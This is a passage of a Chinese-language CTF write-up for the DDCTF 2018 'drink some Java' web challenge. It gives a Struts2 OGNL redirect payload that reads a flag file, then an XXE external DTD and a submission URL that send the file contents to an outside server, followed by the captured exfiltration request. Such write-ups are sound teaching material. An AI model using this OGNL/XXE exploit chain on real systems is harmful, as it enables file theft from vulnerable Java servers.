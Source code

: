 大概的意思是用redirect:${}包裹java代码，变量前标识符用井号，语句分割用逗号，改成读文件的payload

```JAVA
redirect:${
#f=new java.io.File('/flag/flag.txt'),
#fs=new java.io.FileInputStream(#f),
#ISR=new java.io.InputStreamReader(#fs,'GBK'),
#br=new java.io.BufferedReader(#ISR),
#lText = #br.readLine(),
#ISR.close(),
#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
#matt.getWriter().println(#lText),
#matt.getWriter().flush(),
#matt.getWriter().close()
}
```

去除换行符，URL编码后添加到服务器的remote.xml

```xml
<!ENTITY % file SYSTEM "http://tomcat_2:8080/hello.action?redirect%3A%24%7B%23f%3Dnew%20java.io.File%28%27%2fflag%2fflag.txt%27%29%2C%23fs%3Dnew%20java.io.FileInputStream%28%23f%29%2C%23ISR%3Dnew%20java.io.InputStreamReader%28%23fs%2C%27GBK%27%29%2C%23br%3Dnew%20java.io.BufferedReader%28%23ISR%29%2C%23lText%20%3D%20%23br.readLine%28%29%2C%23ISR.close%28%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23lText%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://103.42.28.252:1234/%file;'>">
%int;
%send;
```

提交URL:

```url
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/rest/user/nicaicaikan_url_23333_secret?xmlData=%3C%3fxml%20version%3d%221%2e0%22%20encoding%3d%22UTF-8%22%3f%3E%0a%3C%21DOCTYPE%20flag%5b%0a%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f103%2e42%2e28%2e252%2fremote%2exml%22%3E%0a%25remote%3b%5d%3E%0a%3Croot%2f%3Ey
```

服务器上成功打到flag

```HTTP
GET /DDCTF{You_Got_it_WonDe2fUl_Man_ha2333_CQjXiolS2jqUbYIbtrOb} HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_151
Host: 103.42.28.252:2345
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

## 参考wp

[DDCTF 2018 Web Writeup【Wfox】](http://sec2hack.com/ctf/ddctf-2018-web-writeup.html)

[DDCTF2018 WEB6 喝杯JAVA冷静下 WRITEUP【lz1y】](http://www.lz1y.cn/archives/1403.html)
